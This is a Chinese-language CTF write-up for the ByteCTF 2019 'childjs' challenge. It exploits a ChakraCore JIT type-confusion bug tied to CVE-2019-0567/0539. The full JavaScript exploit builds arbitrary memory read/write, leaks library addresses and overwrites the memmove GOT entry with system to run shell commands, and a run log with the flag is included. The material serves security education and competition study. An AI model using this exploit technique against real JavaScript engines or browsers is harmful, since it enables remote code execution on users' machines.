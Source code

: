 首发：http://blog.leanote.com/post/xp0int/%5BPWN%5D-childjs-xfiles

```
ByteCTF 2019 childjs
Points: 740 Solved: 8
nc 112.126.101.96 1338
```

非常典型的 JavaScript JIT 引擎`类型混淆(Type confusion)`漏洞。

这道题目基于`CVE 2019-0567 / CVE 2019-0539`，涉及微软 Edge 浏览器的 JavaScript 引擎`Chakra`。

下面是题目的 diff：
```
diff -uNr ChakraCore_bak/lib/Backend/GlobOptFields.cpp ChakraCore/lib/Backend/GlobOptFields.cpp
--- ChakraCore_bak/lib/Backend/GlobOptFields.cpp	2019-04-24 10:14:24.012350694 +0800
+++ ChakraCore/lib/Backend/GlobOptFields.cpp	2019-04-24 10:16:11.197823797 +0800
@@ -482,7 +482,6 @@
         break;
 
     case Js::OpCode::InitClass:
-    case Js::OpCode::InitProto:
     case Js::OpCode::NewScObjectNoCtor:
         if (inGlobOpt)
         {
```

经过改动后，`Chakra`引擎会认为，`InitProto`指令码的执行过程中不产生任何副作用，而实际上`InitProto`执行过程中，参数的对象类型会发生改变。

经过[JIT](https://zh.wikipedia.org/wiki/%E5%8D%B3%E6%99%82%E7%B7%A8%E8%AD%AF)优化编译后，`Chakra`引擎会移除检查对象类型是否一致的代码。攻击者可以通过旧类型的操作访问新类型对象内存区域以外的数据，实现内存越界读写。

详细的漏洞原理可以参考利用脚本中的链接。

我们利用了两个`DataView`对象。通过类型混淆，我们可以修改`DataView`对象内部指向读写缓冲区的指针，实现对任意内存地址读写。我们首先泄漏`DataView`对象内部的`vtable`指针，从而泄漏`libChakraCore.so`基地址，然后再进一步泄漏`glibc`基地址。

在执行 JavaScript 语句`Uint8Array.set(Uint8Array)`时，`Chakra`引擎会调用`glibc`库的`memmove`函数。我们可以将`libChakraCore.so` GOT 表上`memmove`函数地址修改为`system`，然后将 Shell 命令作为参数传给`Uint8Array.set(Uint8Array)`语句，实现任意命令执行。

利用脚本如下：

```
// ByteCTF 2019 childjs Writeup By xfiles
//
// Points: 740 Solved: 8
// This challenge is based on CVE 2019-0567 / CVE 2019-0539.
//
// Reference: https://www.exploit-db.com/exploits/46203
//            https://perception-point.io/resources/research/cve-2019-0539-exploitation/
//            https://bruce30262.github.io/Chakrazy-exploiting-type-confusion-bug-in-ChakraCore/#arbitrary-readwrite-primitive
//            https://xz.aliyun.com/t/4475
//            https://gist.github.com/eboda/18a3d26cb18f8ded28c899cbd61aeaba
//
// Comments starting with '(*)' are added by the author of this writeup.
//

obj = {}
obj.a = 1;
obj.b = 2;
obj.c = 3;
obj.d = 4;
obj.e = 5;
obj.f = 6;
obj.g = 7;
obj.h = 8;
obj.i = 9;
obj.j = 10;

dv1 = new DataView(new ArrayBuffer(0x100));
dv2 = new DataView(new ArrayBuffer(0x100));

BASE = 0x100000000;

function  hex(x) {
    return "0x" + x.toString(16);
}

function lower(x) {
    return x & 0xffffffff;
}

function upper(x) {
    return parseInt(x / BASE);
}

function opt(o, proto, value) {
    o.b = 1;
    let tmp = {__proto__: proto};
    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    // o->auxSlots = obj (Step 1)
    opt(o, o, obj);
    // obj->auxSlots = dv1 (Step 2)
    o.c = dv1;
    // dv1->buffer = dv2 (Step 3)
    obj.h = dv2;

    let read64 = function(addr_lo, addr_hi, dv) {
        // dv2->buffer = addr (Step 4)
        dv1.setUint32(0x38, addr_lo, true);
        dv1.setUint32(0x3C, addr_hi, true);

        // read from addr (Step 5)
        return dv2.getInt32(0, true) + dv2.getInt32(4, true) * BASE;
    }

    let write64 = function(addr_lo, addr_hi, value_lo, value_hi) {
        // dv2->buffer = addr (Step 4)
        dv1.setUint32(0x38, addr_lo, true);
        dv1.setUint32(0x3C, addr_hi, true);

        // write to addr (Step 5)
        dv2.setInt32(0, value_lo, true);
        dv2.setInt32(4, value_hi, true);
        // (*) BUG from original PoC
        // dv2.setInt32(0, value_hi, true);
    }

    // get dv2 vtable pointer
    vtable_lo = dv1.getUint32(0, true);
    vtable_hi = dv1.getUint32(4, true);
    vtable = vtable_lo + vtable_hi * BASE + 0x30

    // (*) get libChakraCore.so base 
    cha_base = read64(lower(vtable), upper(vtable)) - 0x887ed0;
    print("Chakra base:", hex(cha_base));

    // (*) get glibc base 
    addr = cha_base + 0xe537d0 // (*) write GOT, glibc 2.27
    libc = read64(lower(addr), upper(addr)) - 0xf45270;
    print("libc base:", hex(libc));
    
    // (*) get system address
    system = libc + 0x4f440;
    print("system:", hex(system));

    var cmd = "cat /home/ctf/f1ag_1s_h3r3_sasdfjasdklghasdlg\0";

    // write the command into a Uint8Array
    var target = new Uint8Array(0x1234);
    for (var i = 0; i < cmd.length; i++) {
        target[i] = cmd.charCodeAt(i);
    }  

    // overwrite memmove with system
    memmove = cha_base + 0xe53108;
    print("memmove got:", hex(memmove));
    write64(lower(memmove), upper(memmove), lower(system), upper(system));

    print("getshell");
    // GIMME SHELL NOW
    var bb = new Uint8Array(10);
    target.set(bb);

}

main();

EOF
```

利用效果（偶尔会`Segmentation fault`）：

```
$ cat exp.js | nc 112.126.101.96 1338
code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> code> addr: 0x00007FEC7CF68520
Chakra base: 0x7fec78a83000
addr: 0x00007FEC7CF68560
libc base: 0x7fec7b4e5000
addr: 0x00007FEC7CF68500
system: 0x7fec7b534440
addr: 0x00007FEC7CF68540
memmove got: 0x7fec798d6108
addr: 0x00007FEC7CF68580
getshell
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
==================================================================



bytectf{Haklshlashglashklgahlsghalskgh}
```

